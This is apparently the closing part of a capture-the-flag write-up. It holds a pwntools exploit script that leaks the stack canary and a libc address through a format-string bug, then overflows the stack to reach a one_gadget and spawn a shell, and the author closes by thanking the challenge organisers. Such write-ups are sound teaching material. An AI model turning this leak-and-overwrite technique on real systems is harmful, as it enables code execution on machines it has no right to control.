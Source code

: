 ```python

    create(1, f"%9$pO%15$pP")
    view(1)
    ru("date: ")
    canary = int(r.recvuntil("O", drop=True)[2:], 16)
    leak = int(r.recvuntil("P", drop=True)[2:], 16)
    libc.address = leak - 0x29D90
    log.info(f"canary @ {hex(canary)}")
    log.info(f"libc leak @ {hex(leak)}")
    log.info(f"libc base @ {hex(libc.address)}")


    payload =  b"11/Nov/1111"+p64(0)+b'A'*13
    payload += p64(0)
    payload += p64(canary) #canary at offset 0x28
    payload += p64(0)
    payload += p64(libc.address + one_gadget) #RIP at offset 0x38

    create(2, payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

# Conclusion
Thank you to the authors for the challenges, I really enjoyed sentence in particular. 

I'm a bit sad I didn't have time to try Infernal break, because It seems like it was very difficult!

Looking forward to next year!
